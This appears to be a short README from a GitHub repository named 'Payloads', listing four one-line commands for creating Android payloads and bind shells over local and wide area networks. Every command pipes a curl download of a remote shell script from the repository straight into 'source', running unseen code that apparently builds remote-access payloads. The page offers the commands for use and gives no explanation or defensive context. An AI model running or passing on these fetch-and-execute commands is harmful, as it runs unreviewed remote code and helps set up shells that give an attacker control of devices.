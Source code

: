 # Android 

<B>Local Area Network</B><BR>
  <pre> source <(curl -fsSl https://raw.githubusercontent.com/efxtv/Payloads/main/Demo/LANAndroid.sh) </pre>
<BR>
<B>Wide Area Network</B>
 <pre>source <(curl -fsSl https://raw.githubusercontent.com/efxtv/Payloads/main/Demo/VANAndroid.sh) </pre>

# Android Bind
<B>Local Area Network</B><BR>
  <pre> source <(curl -fsSl https://raw.githubusercontent.com/efxtv/Payloads/main/Demo/LBIND.sh) </pre>
<BR>
<B>Wide Area Network</B>
 <pre>source <(curl -fsSl https://raw.githubusercontent.com/efxtv/Payloads/main/Demo/WBIND.sh.sh) </pre>
